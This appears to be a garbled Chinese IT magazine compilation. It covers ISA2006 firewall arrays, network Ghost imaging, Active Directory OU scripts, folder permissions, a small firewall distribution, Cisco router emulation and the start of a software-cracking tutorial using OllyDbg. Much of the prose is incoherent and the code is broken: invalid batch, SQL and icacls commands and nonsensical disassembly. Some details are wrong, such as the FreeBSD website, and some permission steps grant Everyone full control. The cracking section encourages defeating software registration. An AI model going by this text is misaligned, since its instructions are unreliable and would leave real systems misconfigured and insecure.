下面介绍下一本书的测试环境，本次的网络结构模型如下：需要两台ISA2004服务器、一台服务器以及两个客户端。安装的服务器全部为Windows Server 2003并进行了Windows Update，可以通过Virtual PC 2007、Virtual Server 2005或VMware上使用虚拟机来构建环境，或者Virtual Server 2005，方便的在以后在一个集群中运行，通过VM集群实现时需要在每个集群的节点内部进行修改配置文件，网络结构如图1所示。


| Client/Server-1: 192.168.0.1 | Internal: 192.168.1.1 |
| --- | --- |
| ISA-1: 192.168.0.2 | External: 192.168.1.2 |
| Certificate: 172.168.1.254 | Client/Server-2: 192.168.1.2 |
| Internal: 192.168.1.3 | |

其中Client/Server-1为外部客户端，ISA-1和ISA-2是本次实验中的两个防火墙客户端，CA是网络内部客户端和服务器，网络的工作模式。接下来我们将部署CA服务器，CA服务的比较简单，安装时需要注意下方ISA服务器必须安装一台服务器，或者根据安全需要另外一台服务器，如DHCP或者OC，作为服务器不是安装在虚拟机上而是属于服务器，可能会导致存储在服务器上，这样可以通过域来连接，这次实验也是必不可少的如图2所示，我们将将证书和部署全部支持中。

### 高级证书申请身份信息：

| 姓名 | SA-1 |
| --- | --- |
| 电子邮箱 | |
| 公司 | |
| 部门 | |
| 市 | |


接下来就是修改证书选项了，一定要将密码修改为“选择”，还要把证书保存在本地计算机。如果没有这里设置，将在证书界面显示，由于我们不需要，后来的申请表再次修改，确定后可以“提交”。点击下一步，提交申请后返回证书颁发，点击“证书”按钮，注意，提交申请后还能返回证书，此时页面会自动刷新，我们要从CA服务器颁发机构选择就可以完成证书颁发，最后点击结束。


打开SA-1申请，使用浏览器访问`http://172.168.1.254/站点`，这里就是部署好的CA服务器了。在申请表中，我们在这里选择“选项”点击“申请”，在申请类型选择“高级证书”，如图3所示，在高级证书申请中，我们选择并向CA提交申请，我们需要填写一些信息，同时要求在“姓名”处填写SA-1，如果千万忘记这个名字的话，不需要使用SA-1，这个名字取决于你的第一台CA服务器的部署，也就是说这里的证书填写时，不能使用SA-206的计算机，面的SA-1和SA-2将无法认证，也就无法对服务器进行，其中SA-1的计算。


名称为SA-1，“注意”，在申请表中，默认是“客户端证书”。我们需要注意，点击“下一步”。选择一个选项：客户端证书此时我们将看到CA服务器的证书信息。


高级证书申请CA的允许你申请证书的类型。单击列表中选择之一：

| 高级证书申请 | 使用现有证书 |
| --- | --- |
| `Microsoft Enhanced Cryptographic Provider v1.0` | |
| 证书大小 | 1024 |
| 颁发者 | CA-1 |
| 颁发者 | SA-1 |


安装证书后，我们返回CA站点首页，继续点击“选项”下载CA证书，或者点击CRL，如图所示，在退出的页面中选择下载CA证书，如图8所示将证书保存到本地计算机中。选择一个选项：证书申请查看证书申请的状态在导向SA-1中，点击下一步此处需要输入一个输入位置，点击“浏览”按钮选择一个输入位置，这将选择需要的证书颁发机构，如图9所示，安装下载好的证书后，将使用MMC访问服务器进行操作。


邮件邮箱: liubiao@hacker.com

下发CA证书、证书链CRL从选择一个要下载的证书，此处CA证书。选择某一个CA证书，证书链CRL，选择证书和编写方法。

CA证书：

编码方法：

- DER
- Base 64

下载CA证书

下载证书链CRL


图10所示，大家应该对MVC不是吧？我记得今年华第四期中部LCS2005时已经读过了，我的朋友都补习学习了，我不记得。在证书管理单元中


图10


高级证书格式


加密证书格式


改的内容如下：

```text
127.0.0.1       localhost
172.168.1.1     ISA-1
172.168.1.2     ISA-2
172.168.1.254   CertSrv
```

此时，我们不要再创建新排列了，要做的的是ISA加入刚才的排列中，在配置完成后，如图18 所示。


- 重新排列列
- 为ISA: 拖动选择列并拖到需要的位置
- 重新插入列
  - 拖动选中要插入的列，然后拖到需要插入的列之间，并点击右键选择‘插入到列’
- 重新删除列
  - 拖动选中要删除的列，然后拖到需要删除的列之间，并点击右键选择‘删除’

还需要注意一个细节，就是防止防火墙排列列名双击选择‘属性’。我们需要设置排列凭据，我们需要使用一个本地管理员账号即可，如图22所示。


当ISA-2部署完成后，我们可以在任意一个ISA服务器上看到它的。你可以在服务器中看到服务器后会发现两台服务器同时在工作，此时防火墙排列是基本完成了，如图20、21所示。


| | 状态 | 数量 | 创建时间 |
|---|---|---|---|
| ISA-1 | 运行 | 29 | 2027-07-01 |
| ISA-2 | 运行 | 100 | 2027-07-01 |

到目前为止，的ISA2006防火墙排列就算部署完毕了，你可以在任意一个ISA服务器上发布各种规则，规则发布后你会看到两台ISA服务器像同一个服务器一样工作，当两台ISA服务器部署完成后，策略就会生效了。这就是ISA2006服务器在现有框架下如何使用两个排列来实现工作模式，最好是我们不希望在真实环境中尽可能少使用AD，在真实环境中部署ISA2006服务器对每个管理员的管理也将将会有效。最好让ISA-1和ISA-2之间通过使用独立的网络通讯，不要占用同一个内部或外部网络带宽。微软官方网站提供了ISA2006评估版的下载，同时还有许多技术可以解决。


图19

## 客户端实施

适合者：网络管理员

前置知识：知识


总的来说，GHOST 是一种非常快速镜像和恢复系统的好方法，与网络结合起来之后，就是让人很惊喜了。GHOST 就是一个镜像备份、拷贝或镜像安装或恢复系统。它由一个 GHOST 服务器和 GHOST 程序组成，最好在 Windows XP 或 Windows 2003 系统上，和 GHOST 客户端只需要一个单位就可以加载到内存内的运行操作系统启动（此光启动），以便能对硬盘进行运行 GHOST 的各种操作了。

网络上一个称“Ghost 镜像启动”的 GHOST 镜像包含100MB的硬盘分区，是 ISO格式，可以创建的。这个工具是一个相当重要的工具，关键点就是有点面，这里 GHOST 客户端和 GHOST 服务器程序都是7.5版本非 NTFS格式，所以 GHOST 客户端和服务器程序更新了 GHOST 1.0 版本，它也可以支持其他格式。

在就要装镜像的时候，我又发现了一个新版本，Ghost 启动的操作系统是 DOS 和 XP 版本，并且包含了300MB的硬盘分区。这不需要从服务器向客户端发送的操作，即使不是 Ghost 轰启动，也可以提取到硬盘的操作。网络 Ghost 启动和 Ghosted 启动结合起来，如果你不需要 Ghost 备份的，完全只需要 Ghosted 启动，介绍 GHOST 的基本步骤：

第一步：首先要在桌面上看到的 Ghost 镜像启动（11.0 版本），它是 ISO 格式，把它刻成光盘。

第二步：安装装机，建议对于本机型的计算机，安装一台机，可能要注意 C 盘应该尽量小一点，不要目标选 C 盘，因为到了时候无法用 Ghost 恢复。当然，如果是整个硬盘就不用别设置。Ghost 机是可以加入的，也可以不要加入。

第三步：这次可选，但建议做，就是像那样机安装 Ghosted 启动、Ghosted 硬盘分区启动以后，它会创建一个操作系统启动项，这样就可以直接进入启动项进行恢复了，或者用 Ghosted 硬盘分区在下下载，具体操作如下：

第四步：把机器连接到网络 Ghost 服务器上，当你可能也需要把 Ghost 镜像到硬盘，然后再拷贝到 Ghost 服务器上。通过网络 Ghost 启动还是会省你多次，如果你是想要镜像的硬盘，就不需要在重启后重新加载到硬盘上，先要在服务器端找到 Ghost 备份的镜像，然后运行“Ghost 启动”。如果可以的话，在“名称”里输入一个名字，这个名字也会使用，因为在这里创建镜像，或者选择“创建镜像”，然后为文件拷贝到一个地方，或者只需要镜像 C 盘，完成后点击“接受”。

| 属性 | 描述 |
|---|---|
| 磁盘分区 | |
| 驱动器 | |
| 格式 | |
| 状态 | |

图1

## 第五课：用光盘的 Ghost 重后启动机进行系统备份

从光盘启动后会有动作选择。在第2中显示第一项，展开后的“选择”，在第3中选择“`Auto`”后列表中选择 Ghost 用户的网卡，名字和网卡可能不符，你可以自动选择相应的网卡，这时就需要选择相应的网卡，比如这里有 Intel 网卡，你需要手动选择。


进入 A 盘，输入“`go`”，在出现的窗口中显示 IP 地址和域名（前面`ipconfig`找到），输入完成后完成后 ALT+X 退出，系统就会启动。选择 Ghost Unicast 或 Multicast，多播更适合批量安装系统，因为可以一次安装多个机。在第6中输入 Ghost 服务器的“名称”，然后输入第三步中连接 Ghost 的 IP 地址，输入后的操作与 Ghost 一样，这就对了，在 Ghost 过程中你也能看到速度，注意在之后要修改计算机。


网卡选择后进入 IP 设置，我想我的网络都有 DHCP？如果选择“`Enable DHCP`”（选），如果没有 DHCP，就手动输入一个 IP，之后在第5所示的窗口中直接 ALT+O 确认。


完成后，系统会要求你输入密码（`Type of Password`），直接连接就是输入`ipconfig`客户端的 IP，完成后输入 A。


## 第六课：用镜像安装新的计算机

用镜像安装的计算机需要是一次安装系统就是恢复系统。如果是第一次安装系统，就是通过光盘启动 PXE 机，没有的情况采用的方法。恢复系统意味着你以前安装过，就在选项菜单中使用 Ghosted，那么就可以 Ghosted 进行系统恢复了。给镜像文件的 Ghost 服务器增加一个 IP：10.1.1.1，最后运行`ghostsrv.exe`程序，图7所示。在“会话名称”中输入。


首页 \> 登录

是 Ghost（因为客户是固定的）从“镜像”选择“镜像恢复”，“镜像选择”需要选择的镜像文件，由于这里恢复第一部分的镜像分区，也可以选择“恢复分区”，“磁盘”和“恢复分区”不用选，也可以在“标识”栏中输入任意的值，比如两个客户同时自动恢复，完成后即可“接受客户端”等待客户连接。硬盘的 ISO 文件，使用替换镜像制作。启动 WinISO，打开面的“网络 Ghost 硬盘”ISO 文件，把镜像文件移动到电脑的`C:\boot\Images\netghost.img`并重命名为 `netghost`。它把下载的镜像复制到硬盘，在 WinISO 回到桌面后，将`BOOT.INI`文件复制到桌面，然后重启 WinISO 后找到`BOOT.INI`，点击“第二行”，并把分号后的镜像标识更改为“网络 Ghost”，就这样处理了。把修改后的 INI 文件写入 WinISO 的光盘中保存即可。


图7

启动客户端，在 GhostDos 中选择 GhostDos 2.11，在“GhostDos 2.11”选择“镜像隆”，点击要求输入 Ghost，默认就是 Ghost 的。这里会自动检测镜像，完成后即可完成任务。如上所示，可以使用 Ghost 10.0 从网络 Ghost 到本地的第一个分区，分区 10 之后就会启动 Ghost 服务器。客户端会自动连接到服务器，满足自动启动条件后手动开始，系统就会进入桌面。


2) 第二次加载客户端，只需支持启动

由于 GhostDos 现在没有足够的光盘，所有的客户端都自己制作了一个，我们可以利用前面的“网络 Ghost”。

3) 第二次加载客户端，只需支持启动 PXE 客户端


在服务器上下载 GhostDos PXE 客户端，不需要额外安装，服务器加载一个 IP 10.1.1.1，分区 1 是 Ghost 255.255.0，之后使用 Ghost 启动 GhostDos PXE 服务器，通过“Ghost 服务”启动 GhostDos PXE -> 点击`FTPd32`。

无自动启动后，点击“设置”设置，在屏幕的“重置设置”中点击“重置设置”，确认后写入`FTPd32`路径，重启后服务器，点击“DHCP”选择“起始地址”，编辑 IP 地址字段中输入 Ghost IP 地址，值为 192。输入文件中 Ghost 并保存后，主机从 PXE 启动，客户端会自动登录，欢迎。从上面可以看出，Ghosted 客户端基本上不需要任何操作，只需加载客户端即可。这也是为什么在后期重装系统时不使用 Ghost 硬盘，而是用 Ghosted 的原因。所有客户端标识在服务器上显示，例如“客户端-1”，这样你就可以区分不同的客户端。在服务器设置中可以修改标识，然后根据需要修改。这里的计算机可以自动分配一个标识，比如 Office 2003，我们可以通过下面的步骤选择进入 Ghost。

## 后记

Ghost，如果你以前创建过相同的计算机，也可以把它们移动到 OU。

1) 同样创建 Active Directory 用户和计算机，在“域”中选择“活动功能”，点击右角的创建计算机，从属性中选择“计算机”，在登录窗口中输入`domain\admin`，然后输入完整的账号。如果你需要用户或计算机移动到固定 OU，你可以把计算机移动到另一个 OU。当你加入新域时，由于属于旧域，计算机不会再加入 OU。对于这个 OU，我们还需要应用一些策略，对于安装软件，如果要部署 OU 策略和打印机，如果是需要用户登录后安装，部署之前必须使用之前的策略。另外还需要其他策略将用到新的 OU；如本地 administrator 密码。

## 前置知识：概述

## 自动移动计算机到 OU

之前讲到了我们把计算机自动移动到 OU，使用脚本。但是这些计算机一直在同一个 OU 中，我们将这些计算机移动到相关的 OU，比如 IT 部门 OU。通过这种方法来实现同步，这种操作如下：

1) 在域控制器上创建一个共享，包含脚本。

2) 在目标 OU 中设置用户登录脚本，名为`login.bat`，内容如下：

```batch
@echo off
for /T %%i in (*) do if "%%i=="new.txt" (copy /y "%SystemRoot%\System32\new.txt" "Target-OU.dc-com")
```

脚本的路径例如：`C:\Windows\login`其中，脚本作为用户登录时触发，将目标计算机名称写入`new.txt`中。域控制器另外创建一个脚本，这个脚本将计算机移动到相关的 OU，如下：当移动完成后删除`new.txt`。让移动自动完成，在 OU 中，计算机和用户名之间必须是相同的域，例如，“OU-用户”。注意用户和用户名之间需要一个分隔符，例如符合要求的参数，或用 计算机名代替。其他形式如“OU-DEP”，我们将计算机移动到相关的 OU，之前如图所示。为了在目标 OU 中运行脚本的方法是让新计算机通过组织策略刷新，然后执行“计算机 > 管理 > 系统工具”。

1) 设置用户登录脚本回路方式，使用策略如下：连接到 Windows 2000

| 计算机 | 策略 | 结果 |
|---|---|---|
| 计算机 A | 策略 A | 成功 |
| 计算机 B | 策略 B | 成功 |

（图1）

3) 在 图2

4) 运行这个脚本创建一个计划任务，比如每小时执行一次，就可以把使用过的计算机移动到对应的 OU 中。

## 文件服务器

## 批处理创建层次明的

文末定义

现在我们已经有了域的环境，对于大家都会到的服务也可以好规划了。可以参照第1 

```sql
use northwind
go
SELECT Name,sAMName,samAccountName
FROM ADUSER.OPENQUERY(ADSI,"SELECT Name,sAMName,samAccountName FROM LDAP//pdquery/filter=(name=*)(dc=local-com))" WHERE objectcategory='person' AND objectclass='user')
```

为每个部门创建一个共享文件夹。

时间，创建一个企业的公共文件文件夹。有特殊的用户权限，用户只有读取的权限。外面可以大家经常使用的文件，而每个部门文件夹下创建一个部门，然后用用户权限创建另一个部门，然后用户就可以读取。部门可以自己写，你也可以根据目前的情况规划权限限制。我们来看看最终结果。

再打开`ADUSER`，全记录，另存为`users.txt`，分隔符为逗号，删除是不可能的字符，打开`users.txt`，如发现 1 为用户名，5 为部门名，12 为用户名。

## 创建部门

图1！文件文件夹

在域控制器上创建一个文件服务器目录及项目。由于我们没有控制器的权限，这时使用`smartquery`，这不能再来进行查询，这是防止所有病毒的一个重要操作。

## 生成用户文件夹（用户显示为：部门 / 部门名）

复制的用户文件夹，`users.txt`拷贝到 D 盘目录，注意 D 盘是 NTFS 格式。这一步在域控制器完成后，先准备一下 AD 用域的用户的用户，然后用 AD 工具移动文件夹。

# 简易防火插件（修正版）

适合读者：网管

前置知识：网络知识

针对近期病毒导致造成网络流量增大，加之简单的OH级别的病毒没有任何自动监控功能，导致局域网陷入瘫痪状态，严重影响正常工作，我自己DIY了一个简单的插件，插件具有连接功能，最终实现了插件的正常运行。

由于没有准备办公电脑，各项设备并不常见，网络相关设备尚未全部到位，而局域网是通过简单交换机组成的环扑结构，由一个核心级的TP-LINK R460由路由器连接，由路由器连接的网络设备具备转换的功能，导致了插件局域网流量比较困难，导致流量容易造成拥堵。至于造成全网崩溃的病毒，由于我们人的免疫力是不完全的，在万一安全设备不够时，只能靠手动处理。通过在网络上查找相关资料，得知插件原理，我们可以自己动手，利用现有文/赵林凯来介绍一个简单的插件。

我们先通过百度中对插件的解释，插件防火是指把防火程序做到插件里面，由硬件执行这些功能，能减少CPU的负担，使得运行更稳定。

硬件插件是保障网络安全的一种依靠，它的硬件的安全和稳定直接连接到内部的网络安全，日常的运行检查来确保防火插件的安全是非常重要的。系统中的很多漏洞和插件任务就会出现这样或者类似的苗头，例如检查的任务就要确保这些安全问题，并可能解决问题。

来说，硬件防火插件的检查主要针对以下内容：

- 1) 检查防火插件的配置。不要在安装防火插件的时候最好都考虑过些事情。

```bash
for /f "tokens=12,delims====" %i in (user) {
icacls /t /i /y /grant \Everyone:部门
}
```

- 5) 检查每个文件夹具有完全控制的权限。

```bash
for /f "tokens=12,delims====" %i in (system) {
icacls /t /i /y /grant \Everyone\*
}
```

## 设置权限

- 1) 目录及其子文件夹具有完全控制的权限。

`icacls /t /g /admin /OI:CI`

- 2) 要求目录及以下目录：administrator和system具有读和写的权限，方便防火插件添加注册和杀毒病毒，为安全插件能够正常运行到两个分区下。

`icacls /t /g administrator /OI:CI`

`icacls /t /g system /OI:CI`

- 3) 目录以及以下目录具有读（权限）。

`icacls /t /g everyone /OI:CI`

- 4) 每个部门的部门公共文件夹本身还有读和写的权限。

`for /f "tokens=12,delims====" %i in (system)`

- 6) 检查共享与共享文件夹具有完全控制权限。设置权限为所有人，即：读、写、完全控制，insert,delete,full 的`icacls`命令具有权限；`/t`参数可以应用到所有文件从上到下文件夹，先选择共享权限，再设置对少数人的权限。

最后，在组策略中添加一个启动插件，把共享的驱动映射为本地的Z盘，让用户更方便访问网络文件了。


硬件组件的全面，硬件组件加入运行环境后，冲突时会发生变化。硬件组件的规则不会总由我们来调整，配置时可能参与到整个系统，作为系统管理员，需要编写一份考虑到硬件更改和可能冲突的安全策略，并严格实施之。

在安全环境中，可能需要明确硬件组件的使用步骤，哪些步骤需要进行调整，何时需要更改，如何引入新的安全策略，还应该编写相应的指南。如由他人修改，通过第三个人测试修改后的结果是正确的，安全策略应该涵盖硬件组件的修改。

## 2 硬件组件的使用情况

如果在硬件组件的记录中，记录硬件组件的使用情况是一项重要的工作。如果不记录，可能在硬件组件的使用量增加时，才留下了硬件组件的记录。“占用组件的异常情况”可能导致记录中某些问题存在，某些问题对于我们来说比较容易处理，但在不留记录的情况下，如果占用组件出现异常，说明硬件组件可能是被感染了Rootkit，已被更改。因此，系统管理员需要准备可能的冲突，关注硬件组件记录，以此维护。例如，检查硬件组件是否超过了阈值，就意味着到了安全问题。

## 3 硬件组件CPU负载

CPU组件的使用情况，CPU负载是判断防御是否存在的一个重要指标。作为系统管理员，必须理解负载的含义：负载低并不意味着出现了问题，但出现的负载过高意味着防御失效了，DoS攻击或外部连接导致了问题。

## 4 硬件组件进程

每台机器在运行环境下有一些特定的程序（Daemon），如某些服务程序、网络程序等。在检查中这些程序是不是在运行，如果发现某些程序没有运行，还需要进一步检查是否由于原因没有运行。

## 5 系统更新

关键系统的改变不是一种情况，管理人员计划进行修改，比如系统的实施和调整。管理员对系统防御经常检查系统状态，并对系统记录，可以发现漏洞的地方。

## 6 异常日志

硬件组件记录了所有记录的信息，系统防御攻击发生的记录由于日志量很大，所以异常日志通常是一条记录。同样的情况下根据管理员决定的，只有管理员允许记录后保留备份。上面的列表检查所有的硬件组件可能存在的问题，为了确认防御的有效性是非常重要的。如果有必要，管理员还可以用数据确认防御策略，甚至可以采取调整来进行增强防御的能力。

通过以上，我们可以确认这其实是一个软件程序，内核是内核中的一部分，我们需要执行它，我们要的是通用的防御包，也可以用 FreeBSD来。基于这些下一步就是查找好的内核工具，FreeBSD系统的官网（http://www.monoll.com/）我们可以得知一个完整的内核包，可以加入到一个个人使用。在免费使用的的基础上，我们可能还需要一些特殊的工具，`monoll`使用其他工具，整个系统被封装在一个XML文件中并保持它的状态，`monoll`实际上是在配置的一个UNIX系统，而不是通用的Shell，整个系统被配置在XML格式中。这些完全都是我们需要的参数，这是一台启动于2006年8月的机器（配置CPU800MHz、256MB RAM），显示卡是NVIDIA HACKER DEFENCE

© www.monoll.com

2006年8月刊


## 制作启动盘

首先是把img镜像写到硬盘。写盘工具已经提前提供给大家了，现在的版本是0.5，我们看下怎么写盘的用法，如图1所示。要注意的是，如果你的硬盘超过了2G，则按`-u`参数。


下面我们开始写盘，写启动程序和`minowmd`放到镜像里，一旦来看，注意你写的是盘。不要把自己的硬盘写错了，这里写的是那块硬盘WD80G硬盘，标号为0。我要写的是标号为1的盘，选择“y”确认后就开始写程序了，如图2所示。


写成功后，我重新连接上`minowmd`的硬盘，发现自己占用了24M，让我们的Windows看起来很可爱，如图2所示。


要选择N，然后就让你设置写盘，U块用来做盘口，一块用来做分区，如图5所示。如果不清楚时可以按“a”自动选择，这样我们完成后防火墙要求后，我们选择“y”，防火墙就此重启了。


重启后我们就可以通过Web界面连接了。将网口和lan口连接上线，网口外接，lan口内网交换机。如果你不确定要设置的IP地址，可以分步设置一下就可以了。首先设置我们的IP地址，如图1所示，这里还需要修改的，因为`minowmd`默认的地址是192.168.1.1，如果你原来的设置是其他网，比如：`192.168.0.*`，你可以在`minowmd`管理界面后进行修改。


系统好了以后，我用它制作防火墙的PC后出现显示器，键盘。由于没有条件可以在虚拟机中运行它，建立通用的PC设备，虚拟机在显示器上看到网络信息后，我们可以看到图4中的设置，下面给大家介绍一下。

| 选项 | 描述 |
| :--- | :--- |
| 1 | 配置lan口 |
| 2 | 配置wan口 |


# ADMINISTRATOR CLUB

网址：hacker.com

输入用户名：`admin`、`password`即可进入Web管理界面，是不是简单的呢？点击常规设置，这里可以修改DNS服务器、端口等信息，如图7所示，然后点击保存。


| 状态 | |
| :--- | :--- |
| 状态 | 已连接到路由器 |
| 状态 | 0 |

广域网络设置，点击广域网络设置，在PPPoE拨号方式中添加一个，点击“+”号，选择PPPoE方式，输入用户名和密码，点击确定后等待拨号成功。如果拨号失败，可以检查用户名和密码是否正确，或者检查线路是否通畅。修改广域网络设置后，点击保存，然后重启路由器，设置即可生效。

下面再一看接口方面的设置，点击防火墙规则，这里可以为WAN和LAN设置规则，方便我们管理如图1所示，点击“+”号就是添加规则，如图12所示，是不是简单的呢？同样添加后我们点击保存。同时我们还可以选择NAT、流量控制、别名等选项。如果有的话详细读一遍吧，之后就可以修改地址，这里修改LAN地址，我已经修改为了192.168.0.1了。


我们就可以192.168.0.1管理了。接下来可以使用WAN接口下面，我们分部分介绍用固定IP(static)方式、拨号(PPPoE)方式的设置。固定IP(static)方式如图9所示，写入IP地址和网关后就可以了；拨号(PPPoE)方式要输入用户名和密码，点击一下就会自动拨号了。


防火墙：编辑防火墙：规则。广域网络设置，点击广域网络设置，在这里可以添加一个规则。添加新规则，选择源地址、选择目的地址、选择动作、选择协议，点击保存。点击页面上方的列表中的“IP”，就可以进入IP规则设置。


点击状态信息，我们可以看到系统运行的信息，比运行时间、CPU占用等信息，然后可以。

## ADMINATOR CLUB

适合读者：网管

前置知识：网络知识

## 菜电脑PC上Cisco路由


平时我们接触的不是Windows XP/2003，就是Linux。最近小弟弟也想学学Cisco路由，可是国际公认好用的，这条路由于太便宜，我们小哥可能不起。如今如何用的路由器，网络上去找没有什么找到，经过一番搜索，找到了一个好东西Dynamics，可以还不错，而且和以前网络流行的Sonic路由器的最大区别在于：它是路由器操作系统环境而来的Linux（就是路由器操作系统的），我们平时接触的路由器可能各种像游戏一样。朋友没关系，下面跟着小一起一起学Cisco路由之旅吧。

## 安装配置

我们先进入`[setup]`目录，如果以前你安装过`Win_Pcap`，就执行“安装`Win_Pcap` `cmd`”这一个处理。再修改路由参数：`cmd`，就会弹出一个`CMD`窗口，任意按键把参数参数到下面一行`\Device_*[03AF5CB1-DB1A-436E-BDA9-F37D]`。首先打算要学Cisco（http://cisco.com.cn）下载Dynamics，已经有一个非常好的路由器包括OS，还有其他的软件提供给丰富的同学，接触过的基本上基本配置就完成了。小弟弟用VMWare虚拟机的路由参数可以随便抄的，自己确定就行。好了，现在可以查看当前流量，不需要安装Adobe就能正常显示。看到了第一条流量，点击现在的流量，在选择栏中看到日志、或者设置。

| 流量 | 速率 |
| :--- | :--- |
| In | 644 Kbps |
| Out | 747 Kbps |
| WAN | 5 Mbps |


| | 500 Kbps |


动态了，退到`Dynamism@URainbow`目录下，双击`XP22003.bat`，如果是Windows2000系统，双击`Win2000.bat`，打开一个窗口，记住它如图所示。我们可以开始今天的一个路由实验，一次性开启多个，用命令`start R1`，注意交换不可配置的。接下来就用命令`start R1 R2`开启多次，还可以`start all`所有的路由。为了来说，我开始`R1`和`R2`表示。现在下面有一句话：`Starting R1 with no idle-value`，后面回车确认，获取第一个数字，这里就是数字`idle-value`，如图4所示。


按下`Tab`键，它就会自动全，真不错。接下来来配置一下，在`router#`后进入`config terminal`（可为`config t`），进入全局配置模式，出现`Router (config)#`，更改主主机名，输入`hostname R1`，回车就表明配置成功。然后再设置IP地址，先进入`R1`，和`R2`的接口是`fa0/1`。那么就输入`interface fa0/1`（`config-if`）进入接口配置时，这时出现了`R1(config-if)#` `ip address 192.168.0.1 255.255.255.0`，在这个接口上设置了IP为`192.168.0.1`，掩码为`255.255.255`的地址了，记得要用`no shutdown`（可为`no shut`）命令来激活这个接口，如图8所示。


当出现了`router>`说明已经进入了用户模式，已经运行了一些简单的命令，但我们希望进入特权模式，以后可以使用命令，在用户模式下输入`enable`（可以为`en`），出现`router#`就表明是在管理员了，可以做一件事情，如图7所示。


点击状态信息，在`router#`提示符下，键入`show-running-config`（可为`sh run`）看到当前配置，这里`11111111111111111111111`了。，重启后，我们就可以`192.168.0.1`管理了。点击，状态信息，`11111111111111`，这时出现了`R1(config-if)#`输入`ip address 192.168.0.2 255.255.255.0`，如图所示。


同样，在`router#`提示符下，`ping-R2`，这里用命令`ping 192.168.0.2`，两个路由都连接了！

# SECRET OF CRACK

iFire:从某天开始成为“黑客”这个起初，我并不希望学习者们来信我说自己已经是Cracker，希望我们能够教他们怎样才能成为一个Cracker，一手接手，或者希望我们能够教他们来一套完整的破解教程，或者希望我们能够教他们破解……总之，我是Cracker的梦中那种，为了帮助大家认同了这个世界，从基础开始，我们特别要教他们学会“黑客”语言，从破解到高级，希望大家能学会破解常识，以后你们在黑客领域出现，可能成为一名基础的破解高手，我还要带大家看一次软件，Cracker的梦想是破解软件，而且通过跟踪程序，让破解程序，要求自己提高，并且自己能写出自己的程序，并且在安装软件的时候，要尝试自己编写的注册码，并调试它。在破解的学习中，学习过程中遇到困难是很正常的，所以你千万不要放弃，因为如果你在希望的时候，就轻易放弃了，那么你就不可能成为破解高手。首先，学会一些破解工具，可以让你事半功倍。作为你们从“黑客”语言学会破解的第一周，我将教教大家为大家介绍几款破解工具，可以看到他们将它们收集起来毫无用处，所以对我来说只是一个小窍门，我们再列系列破解教程完全是自己破解的，其工作与计算机毫无关系，破解者的行为，为了成为破解高手，真是难不么？Let's go！

破解者宣言

## 破解解码器及调试工具

文/laoxixueqing

很多人刚开始学习，破解的时候很痛苦，对于线性跟踪的过程中所遇到的问题，常如所料的而且经常找不到合适的破解工具，找到了破解能力的程序，或者是注册的软件，破解的方法并不是分析出来的，我也不说实话，并不是一个简单的程序就能分析出来的分析，所以这篇文其实很复杂，但是它代表的逻辑逻辑在文中是不太清楚的。

学习破解，不仅仅是想要能够破解的功能，更重要的是从中学到软件的功能实现，如何加密的原理和处理的方法，比如如何作为一个Cracker，希望大家学会《破解手册》，关于破解（破解解码，修改破解）的方法，应该至少学习汇编语言通过调试器的正确性来发现，以及通过调试器运行的计算结果来破解代码的意义。要掌握，汇编语言对于自己并不熟悉，但是一个大的逻辑组合在一起可以办这么这样做，恐怕不是别人能做好的，破解与调试对于大家来说是一件很有关系的事，但又又是伙伴关系。如果能够达到互补如此，你就会受益。对于学习者来说如果是软件破解，可能都会受到影响。

这里我在这里的，如果你也要学习（的话）破解知识

使用一些破解工具的工具并使用其方法是非常必要的，否则我们不能做到事半功倍，更有助于交流，使用一些工具，随人的要求而定，那么我主要介绍一下我喜欢的工具，也许也会有你需要的东西吧

这是破解软件的调试调试工具，其许多方法大家都会了，我就不用说了。对于特殊的麻烦，下面介绍几个工具：

### ODlyDbg

- 1) 编写破解解码器时，我们对于还没有看过的机器码，所以应该用破解器拦截机器码的显示部分，通过下面介绍的图1所示。

| Address | Instruction | Comment |
|---|---|--|
| 00401000 | PUSH EBP | |
| 00401001 | PUSH ESP | |
| 00401003 | MOV EBP, ESP | |
| 00401006 | SUB EAX, EAX | |
| 00401008 | PUSH 5 | |
| 0040100A | MOV EAX, 5 | |
| 0040100D | PUSH 4 | |
| 0040100F | MOV EAX, 4 | |
| 00401012 | PUSH 1 | |
| 00401014 | MOV EAX, 1 | |
| 00401017 | CALL 00401000 | |
| 0040101C | MOV EAX, EAX | |
| 0040101E | PUSH EAX | |
| 00401020 | MOV EAX, [EAX] | |

图1

跟踪函数，Hex转到底应该调试程序拉一段距离，以便你可以看到主体和转换。复写后的代码


HACKER.COM 《破解教程》2006年第8期 上册 第89页

- 2) 之后选择选择文件的保存副本。

- 3) 不修改代码的方法。很多时候我们不知道如何修改代码，这时可以考虑修改代码可能有三个选择的：

```
00409220/> $55 PUSH EBP
00409221 88>MOV EBP,ESP
00409223 83>ADD EBP,4B
00409224 55 PUSH EBP
00409228 57 PUSH EDI
00409229 39>XOR EAX,EAX
```

一种寄存器，如图所示。在红色的方的，可以在(`F5`)的对话框中修改。点击寄存器，如图所示。我们可以看到机器码和编码统一的。在现代代码中，Hex存到至少直接成为一线。如图2所示，实际的代码如下：


```
00409200 $55 PUSH EBP
00409201 88>MOV EBP,ESP
00409203 83>ADD EBP,4B
00409204 55 PUSH EBP
00409206 57 PUSH EDI
00409207 29>PUSH ESI
0040920A 8B>MOV [LOCAL_0],EAX
0040920C 8B>MOV [LOCAL_1],EAX
0040920F 39>XOR EAX,EAX
```


## 二 标识状态

寄存器，如图所示。在第2处上、双击可以修改状态。你要修改代码流程运行到Hex视图如果你不想，可以在这里双击运行如果想继续运行，再双击一次可以然后通过这里进行调试。大家看来，这还是清楚了吗？环境跳转，但大多数人都看到汇编代码了所以不知道该用哪种调试呢？

```
004056D7 6A E0 PUSH DWORD:[ESP]
004056D9 55 PUSH EBP
004056DA 8B E5 MOV EBP,ESP
004056DC 8978 MOV DWORD:[ESP]
004056E0 83 SUB EBP,10
004056E3 88MOV EBP,ESP
004056E5 680000C00 PUSH 00000C00
004056EB E5 CALL eax
004056EC 8944 EC MOV [EAX],EAX
004056F0 8B 4C 24+EAX
004056F4 680000400 PUSH 00000400
004056F7 8974 48 MOV DWORD PTR:[ESP+44]
004056FB 8B C4 MOV EAX,
00405700 55 PUSH EBP
00405701 C3 RET
```


